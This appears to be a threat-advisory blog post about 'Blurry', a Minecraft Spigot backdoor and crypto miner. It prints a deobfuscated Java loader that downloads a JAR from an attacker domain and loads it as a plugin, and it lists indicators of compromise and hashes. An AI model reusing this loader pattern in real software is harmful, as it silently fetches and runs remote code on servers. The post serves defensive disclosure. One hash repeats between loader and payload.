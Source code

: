 ```yaml
---
title: Blurry Spigot Backdoor
author: xyzeva
pubDatetime: 2023-07-20T13:50:10.627Z
postSlug: blurry-backdoor
featured: true
draft: true
tags:
  - threat
description: A new minecraft server backdoor and crypto minder.
---
```


MMPA members noticed some malicious activity going on their own personal servers, when given samples to investigate, MMPA uncovered the malware family "Blurry".

## What we know so far

Blurry is a multi-stage backdoor that is capable of completely taking over minecraft servers, crypto mining, and DDoSing.

Blurry works in 2 stagers, one being pulling for a domain, a JAR mainly named `BukkitScheduler.jar` and loading it into spigot, the loader is heavily obfuscated, but when cleaned up, it looks something like this:
```java
PluginManager pluginManager = Bukkit.getPluginManager();
if(pluginManager.getPlugin("BukkitScheduler") != null) return; 
URL url = new URL("https://i-really-love-cute-little-boys.fluyd.dev/aids/1ii1i1i11i1i1i1ii1i1iii1i11i1i1i1i1i1i1i1i1i1i1i1i1i1");
File file = new File("./plugins/BukkitScheduler.jar");
Files.copy(url.openStream(), file.toPath(), StandardCopyOption.REPLACE_EXISTING);
Plugin plugin = pluginManager.loadPlugin(file);
plugin.onLoad();
pluginManager.enablePlugin(plugin);
```

The malware has been seen to DDoS LGBT related minecraft servers. From what we can see, this is currently a minor threat, as it hasn't spread yet. But it should still be a good idea to check your servers.

## IoCs

- xmrig in minecraft server directory (`find | grep xmrig`)
- *.fluyd[.]dev

### Hashes
All hashes are provided as SHA-256.

#### Loaders
- `94e5218687c00baa61ea7a5348365fc4e0820b3cb81f16ff01972eaa231d6320` - `SoaromaSAC-1.0.65.jar` (Found on Bukkit, the actual plugin isnt affected.)
- `ffc965299059c29c4a806658215f99b5160d58b283befc7d3ac33b43c30cffeb` - Cracked Vulcan (`Vulcan-2.7.3.jar`)
- `1a9a698c6d9011727d1f4ace52bcf7630361765602cf729fc8bccc3774ce7ad2` - Fake copy of Open Source Project (`BedrockPlayerManager-1.4.jar`)

#### Payload
- `94e5218687c00baa61ea7a5348365fc4e0820b3cb81f16ff01972eaa231d6320` - `BukkitScheduler.jar`
- `8977470e0a766dc2deee2320eafeefa1f15d9adcc93f749418c362ee8ed4b858` - XMRig config (`config.json`)